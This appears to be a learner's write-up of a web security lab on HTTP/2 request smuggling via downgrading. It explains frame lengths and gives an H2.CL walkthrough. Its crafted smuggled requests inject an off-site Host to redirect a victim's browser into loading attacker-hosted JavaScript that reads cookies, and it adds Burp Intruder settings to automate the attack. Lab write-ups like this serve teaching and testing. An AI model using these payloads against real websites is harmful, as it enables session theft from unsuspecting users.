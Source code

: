 # HTTP/2 message length

HTTP/2 messages are sent over the wire as a series of separate "frames". 

Each frame is preceded by an explicit length field, that tells the server how many bytes to read in. So, the length of the request is the sum of its frame lengths.

In theory this means that there is no opportunity for an attacker to do the request smuggling, as long as the website uses HTTP/2 end to end. However, there is another way around - HTTP/2 downgrading

# HTTP/2 downgrading

This is a process of rewriting HTTP/2 requests using the HTTP/1 syntax and generate an equivalent request. Web servers and reverse proxies often do this to offer HTTP/2 support to clients while communicating with back-end servers that only speak HTTP/1.

So, basically this can be exploited because sometimes the front-end doesn't really check if the added `Content-Length` matches the HTTP/2 mechanism for the content length, and this allows the attacker to smuggle requests.

## H2.CL exploiting

The lab is vulnerable because the front-end downgrades requests even if they have different length.

The challenge is to perform a request smuggling attack which will cause the victim's browser to load and execute a JavaScript file from the exploit server, and call `alert(document.cookie)`. The victim accesses the home page every 10 seconds.

First let's send the request of the root to the repeater, and change the method from `GET` to `POST`, and delete the unnecessary stuff, to get a clean request like the one below.

Also add the `Content-Length` header.

```http
POST / HTTP/2
Host: 0a90001903c660e2815b61350085001e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

Turn off the automatic updating of the length, as we want to control it.

Now, find an onsite redirect. For this, pick a request to a javascript file, and omit the name of the file, and see the response.

From this request `GET /resources/labheader/js/labHeader.js`, when I removed the name of the file `GET /resources/labheader/js/` I got a `404`, but when I omit the terminating slash `GET /resources/labheader/js` then I got a `302 Found` and the location header was with the terminating slash. This means we got an onsite redirect.

Now let's turn this to an offsite redirect.

Modify the attack request in a way that it will inject also a `Host`:

```http
POST / HTTP/2
Host: 0a90001903c660e2815b61350085001e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
GET /resources/labheader/js HTTP/1.1
Host: halilWasHere.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```

As the frontend will not consider the `Content-Length` we put it to 5 because we want to end in the backend exactly after `x=1`, and we put it to three, because we want at least one byte from the normal request to be appended to it.

If we send this and immediately a normal request we got a:

```http
HTTP/2 302 Found
Location: https://halilWasHere.com/resources/labheader/js/
...
```

This means the offsite redirect has worked.

Now in our exploit server, put that path to `/resources/labheader/js/`, head to:

```http
HTTP/1.1 200 OK
Content-Type: text/javascript: charset=utf-8
```

and body to: `alert(document.cookie);`

Don't forget to add the attack request the Host of the exploit server.

Now automate the attack with the intruder, by sending our attack request and use the `Sniper` attack type, a `Null payload` payload type, and untick the `Update Content-Length header`.

Generate around 100 payloads, with a maximum concurrent request to 1 and with some delay like a 300ms between request.

Start the attack and look out for responses. When you see two `200` status codes in a row, that means one of the requests got intercepted by the lab victim, and when that happens, the lab is solved.

## H2.TL exploiting

By default chunked encoding is incompatible with the HTTP/2 and that any `transfer-encoding: chunked` header will be stripped or the request blocked entirely.

If this is not done in the frontend, and the request downgrades for a HTTP/1 that supports chunked encoding, then this can enable request smuggling attacks.

